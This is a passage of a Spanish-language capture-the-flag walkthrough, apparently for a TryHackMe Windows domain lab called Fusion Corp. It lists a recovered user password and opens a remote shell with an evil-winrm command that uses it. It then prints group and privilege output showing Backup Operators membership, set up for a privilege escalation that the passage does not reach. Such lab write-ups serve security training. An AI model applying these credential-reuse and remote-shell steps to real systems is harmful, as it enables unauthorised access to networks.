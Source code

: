      ![image](https://github.com/Esevka/CTF/assets/139042999/276e0f32-9a08-4f06-a27f-0fb60852a9f7)

     Obtenemos informacion muy importante del sistema.

     ![image](https://github.com/Esevka/CTF/assets/139042999/58e292b7-100c-4988-aeba-cd458fedd304)

     ![image](https://github.com/Esevka/CTF/assets/139042999/31c0481e-5743-4387-8ab1-70ba5712ac12)

     ![image](https://github.com/Esevka/CTF/assets/139042999/70999a07-c012-4308-9bcd-d3f3805325f1)


     - Encontamos credenciales del usuario jmurphy:u8WC3!kLsgw=#bRY
     - Vemos que tanto el usuario lparker como jmurphy pertenecen al grupo --> Remote Management Users
     - Vemos que el usuario jmurphy pertenece al grupo --> Backup Operators (importante este detalle)


#### Usuario jmurphy --> Administrator

-Obtenemos flag User2 y acceso a la maquina con el usuario jmurphy 

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
    └─# evil-winrm -i fusion.corp -u jmurphy -p 'u8WC3!kLsgw=#bRY'
                                            
    Evil-WinRM shell v3.5                                    
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                          
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\jmurphy\Documents> type ..\Desktop\flag.txt
    THM{b4aee2db29--------------42e047612e}

-Listamos todo del usuario jmurphy y verificamos que pertenece al grupo Backup Operators con  permisos SeBackupPrivilege y SeRestorePrivilege.

    *Evil-WinRM* PS C:\Users\jmurphy\Documents> whoami /all
    
    USER INFORMATION
    ----------------
    User Name      SID
    ============== =============================================
    fusion\jmurphy S-1-5-21-1898838421-3672757654-990739655-1104
    
    GROUP INFORMATION
    -----------------
    Group Name                                 Type             SID          Attributes
    ========================================== ================ ============ ==================================================
    Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
    Mandatory Label\High Mandatory Level       Label            S-1-16-12288